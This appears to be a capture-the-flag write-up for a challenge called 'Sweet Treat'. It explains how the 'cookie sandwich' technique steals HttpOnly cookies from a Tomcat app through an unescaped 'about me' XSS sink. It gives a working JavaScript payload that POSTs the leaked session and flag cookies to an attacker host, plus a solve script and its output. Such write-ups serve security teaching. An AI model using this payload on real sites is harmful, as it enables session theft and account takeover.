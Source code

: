 Sweet Treat
============

## Background

The challenge is meant to demonstrate the existence and exploitation of a technique known as the "Cookie Sandwiching" attack, where an attacker is able to steal cookies even if they have the HttpOnly attribute set to true which is usually the reason why many XSS findings end up not having enough of an impact during Pentests or bug bounties.

More about this type of vulnerability can be found here:

- [Stealing HTTPOnly Cookies with the Cookie Sandwich Technique](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique)
- [Bypassing WAFs with the Phantom Version Cookie](https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie)

If you want to just run the script instead its in the [#Script] section.

## Identification

Checking the Dockerfile reveals the image in use is a `tomcat:9.0-jdk11` image. Apache tomcat uses a Legacy Cookie Processor by default in addition to the standard cookie processor to support older browsers/versions of cookies. More information on this can be found in [Tomcat's documentation](https://tomcat.apache.org/tomcat-9.0-doc/config/cookie-processor.html) (Check for RFC 2109).

Essentially, this allows an attacker to add cookies with the name `$Version` to downgrade the cookie versions to force the browser to utilise legacy cookie processor to read and operate on cookies.

Checking the application source code, we can see that there are multiple places where user input is being reflected, most of it is being escaped through an inbuilt html escaping function, however, there is one place where this is not in use i.e. the aboutme section where its being reflected into the `admin/admin-review.jsp` page without sanitisation leading to an XSS vulnerability. The vulnerability exists in this bit of code:

```jsp
<div class="about-content"><%= (aboutMe != null && !aboutMe.isEmpty()) ? aboutMe : "No about me section provided." %></div>
```

We now have a way to add cookies for the user, however, this by itself won't allow full exploitation. The cookie order matters just as much since we want the other cookies that the user has to be the "value" of our added cookie, and for this we need the cookie to come after our malicious cookie. Essentially we want the structure to be something like this:

```
$Version=1; steal="; <User's Cookies>; end="; 
```

Doing the above will make the user's cookies the value of the steal cookie, for example, if the user has cookie JSESSIONID, then the value of steal will be something like this:

```
steal="JSESSIONID=XXXX; end="
```

Although, this has a very important requirement i.e. Some type of cookie reflection. This doesn't strictly have to be on the current page, it can be anywhere that supports the legacy cookie parser and reflects ANY of the user cookies back to the user. Often we can see cookies like Timezone, language, themes, preferences, etc that are used for the user's personalisation. These aren't always used in the source of the page, but in this case we can see that the cookie `language` is being read and reflected inside the source of the page, for example, in `index.jsp` we have this bit of code:

```java
  String lang = "en";
  Cookie[] cookies = request.getCookies();
  if (cookies != null) {
      for (Cookie c : cookies) {
          if ("language".equals(c.getName())) {
              lang = c.getValue();
          }
      }
  }

--- SNIP ---

<!DOCTYPE html>
<html lang="<%= lang %>"> // Here is where we are injecting
```

This is now our target where we will be getting our cookie value reflected, the expected behaviour for this is not properly accounted for and allows arbitrary values to be set.

Now we just have to figure out a way to get the cookie order right to utilise the XSS, and cookie sandwiching attack to get the exploit working. This can be done by abusing the way that cookies are ordered when they are sent to the server. This [blog post](https://blog.ankursundara.com/cookie-bugs/) hints at how cookies are ordered by the Path (longest to shortest) and last updated time (least recent to most recent).

The attacker's cookies can be reordered by specifiying a path, which can be done by adding `/index.jsp` to the path.

## Exploitation

In order to properly exploit and steal the flag using cookie sandwiching we have confirmed the existence of pre-requisites:

- A place where the cookie is being reflected - In this case we can use the `index.jsp` page where language cookie is being read and printed.
- A way to set the cookies in a way where the cookie order allows us to capture the other user cookies inside another cookie's value - This can be done by assigning a longer path to the cookie.
- XSS vulnerability that will be used to do all of the above - About me section, and we can report the profile content to the admin user who has the flag cookie. In a real world scenario this might just require us to wait for another user to somehow interact with a page that holds our payload. (Obviously)

The final payload now can be formed to be this:

```html
<script>
document.cookie = `$Version=1; path=/index.jsp;`;
document.cookie = `language="start; path=/index.jsp;`;
document.cookie = `end="; path=/`;
fetch("/index.jsp").then(function (res){return res.text();}).then(
function (html) {
    console.log("Sending exfil");
    fetch("http://<attacker_lhost>:<attacker_lport>/exfil",
    {
        method: "POST",
        body: html.substring(0,135)
    });
});
</script>
```

All that needs to be done now is inject this into the about me section of a user, and hit the report button button for a profile from the `index.jsp`, or the `edit_profile.jsp` page.

**Reproducing**

1. Creating a new user through register functionality.
2. Adding the payload with the values for the attacker controlled IP changed (alternatively you can post that data to populate the admin user's about me section and then using the dumped JSESSIONID cookie to login as the admin user and viewing the about me section for the admin user through `edit_profile.jsp` page.)
3. Report the profile to the administrator, and force admin interaction.
4. Lose sleep?

## Script

Run the script by specifying the required parameters:

```
python3 solve.py --lhost <attacker_ip> --url http[s]://<challenge_url>/ --lport <attacker_port_for_http_listener>
```

Output:

```
[+] Running HTTP Server on port %s to catch admin interaction 8002
[+] User registered and logged in successfully
[+] Injecting XSS payload into the admin page
[+] XSS payload sent, waiting for admin interaction...
172.18.0.2 - - [01/Jun/2025 13:33:44] "POST /exfil HTTP/1.1" 200 -
[+] XSS payload executed, received data:
[+] Flag:  DUCTF{1_th0ught_y0u_c0uldnt_st34l_th3m}
[+] JSESSIONID:  DFEF73BAC6CB76DC912732F24C35AF8A
[+] Data:  <!DOCTYPE html>
<html lang=""start; JSESSIONID=DFEF73BAC6CB76DC912732F24C35AF8A; flag=DUCTF{1_th0ught_y0u_c0uldnt_st34l_th3m}; end=
[+] Admin interaction detected, shutting down server...
```
